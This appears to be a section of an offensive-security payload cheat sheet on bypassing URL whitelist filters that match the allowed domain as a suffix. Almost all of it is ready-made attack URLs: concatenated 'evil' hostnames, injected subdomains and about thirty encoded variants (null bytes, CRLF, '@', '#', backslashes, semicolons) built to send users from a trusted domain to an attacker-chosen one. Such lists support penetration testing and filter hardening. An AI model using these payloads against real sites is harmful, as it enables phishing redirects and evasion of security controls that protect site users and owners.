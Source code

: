 ##### Whitelisted domain as suffix
If domain is whitelisted as a suffix, filter bypass techniques focus on erasing the whitelisted domain or changing the subdomain by manipulating the URL.

###### Concatenation
A string can be concatenated to a whitelisted domain effectively changing the target subdomain:
```powershell
https://evil{whitelistdomain}/
https://evil-{whitelistdomain}/
https://evil_{whitelistdomain}/
```

###### Inject subdomain
The following payload can be used to inject a subdomain:
```powershell
https://evil.{whitelistdomain}
```

###### Erase top domain
The following payloads can be used to attempt user redirection from a whitelisted domain:
```powershell
https://example.com%00{whitelistdomain}/
https://example.com%20{whitelistdomain}/
https://example.com%09{whitelistdomain}/
https://example.com%0A{whitelistdomain}/
https://example.com%0D{whitelistdomain}/
https://example.com%0D%0A{whitelistdomain}/
https://example.com%0D%0A%40{whitelistdomain}/
https://example.com/{whitelistdomain}/
https://example.com//{whitelistdomain}/
https://example.com///{whitelistdomain}/
https://example.com/.{whitelistdomain}/
https://example.com\{whitelistdomain}/
https://example.com\\{whitelistdomain}/
https://example.com\\\{whitelistdomain}/
https://example.com\.{whitelistdomain}/
https://example.com%40{whitelistdomain}/
https://example.com/%40{whitelistdomain}/
https://example.com\%40{whitelistdomain}/
https://example.com%20%40{whitelistdomain}/
https://example.com%20%26%40{whitelistdomain}/
https://example.com%26{whitelistdomain}/
https://example.com%26%40{whitelistdomain}/
https://example.com%23{whitelistdomain}/
https://example.com%23%40{whitelistdomain}/
https://example.com%23\%40{whitelistdomain}/
https://example.com%3F{whitelistdomain}/
https://example.com%3F%40{whitelistdomain}/
https://example.com%3Fd=http://{whitelistdomain}/
https://example.com%3Fd={whitelistdomain}/
https://example.com;https://{whitelistdomain}/
```
